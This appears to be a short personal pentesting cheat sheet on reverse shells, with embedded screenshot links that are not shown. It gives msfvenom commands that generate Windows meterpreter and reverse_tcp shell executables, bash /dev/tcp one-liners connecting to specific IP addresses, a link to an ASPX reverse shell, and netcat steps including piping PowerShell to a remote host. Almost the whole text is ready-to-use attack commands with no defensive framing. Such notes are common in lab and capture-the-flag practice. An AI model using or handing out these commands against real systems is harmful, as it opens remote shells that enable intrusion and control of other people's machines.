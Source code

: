 # msfvenom
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe 
	msfvenom -p windows/x64/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe		
	bash	-i >&/dev/tcp/10.10.17.185/4242 0>&1
    Aspx/Windows IIS Rev shell : https://github.com/borjmz/aspx-reverse-shell
	
# netcat
    - create a rev shell
	- open a listener by doing nc -lvnp < $rev_shell
	- connect to the listener from the target machine and pipe the tool to execute the shell
	- open 2nd listener for the rev shell 
	- disconnect from the first litener 
	- example 
![[Pasted image 20211004232316.png]]
![[Pasted image 20211004232327.png]]
![[Pasted image 20211004232413.png]]
![[Pasted image 20211004232438.png]]

      nc.exe IP PORT -e powershell
	  
# Bash 
    - bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

	
	
	
	
	


